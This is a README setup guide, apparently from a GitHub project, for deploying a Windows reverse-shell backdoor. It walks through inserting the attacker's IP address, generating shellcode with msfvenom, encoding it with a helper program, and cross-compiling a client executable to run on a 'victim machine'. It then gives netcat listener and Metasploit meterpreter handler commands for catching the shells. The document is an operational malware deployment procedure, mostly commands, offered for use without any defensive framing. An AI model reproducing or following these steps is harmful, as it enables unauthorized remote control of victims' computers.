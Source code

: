# Setup

After cloning the whole project and getting inside of the x86 folder:

1. Open Client.c and replace the contents of the variable ServerIP at line 30 with the IP address of the attacker machine

2. From the terminal, generate the shellcode for ShellcodeX64 using the first commented msfvenom command (Line 49) (Replace the LHOST variable with the IP address of the attacker machine)

3. Now Generate the respective shellcodes for ShellcodeSpawnNetcat and FallBackShell using the last 2 commented msfvenom commands (Lines 51 and 53) (Replace the LHOST variables like before)

4. Copy the output shellcodes of msfvenom for ShellcodeSpawnNetcat and FallBackShell, and paste them inside of ESH.c for the respective variables

5. Compile and execute ESH.c
```bash
gcc ESH.c -o esh && ./esh
```

6. Grab the output of esh, and replace ShellcodeSpawnNetcat and FallBackShell inside of the Client.c file and save.

7. Open Server.c and replace the contents at line 14 with the IP address of the attacker machine and save.

8. You should now be good to go, compile everything by typing:
```bash
i686-w64-mingw32-gcc -o Client.exe Client.c -lwsock32 -lwininet -lgdi32 -lntdll && gcc Server.c -o Server -lpthread && echo "Compilation Successful"
```

9. If everything went correctly, the string "Compilation Successful" should popup on your terminal. If not, there was an error when trying to compile. Make sure you did everything correctly.

10. Setting the server: Before executing the Client on the victim machine, you must make sure to open another tab in your terminal (On the attacker machine), and execute the following command:
```bash
nc -lvnp 38524
```

If you don't do this, when executing Client.exe, no reverse shell will be received due to the fact that you weren't listening on port 38524, and Client.exe will crash (The same thing will happen if you decide to send 'startcat' before listening for a connection on port 443)

11. Now you should start the main server by typing:
```bash
./Server start
```

12. msfconsole commands for Inject86:
```bash
use exploit/multi/handler
set LHOST SERVER-IP
set LPORT 4444
set payload windows/meterpreter/reverse_tcp
run
```

Everything should now be ready to go. Enjoy :)
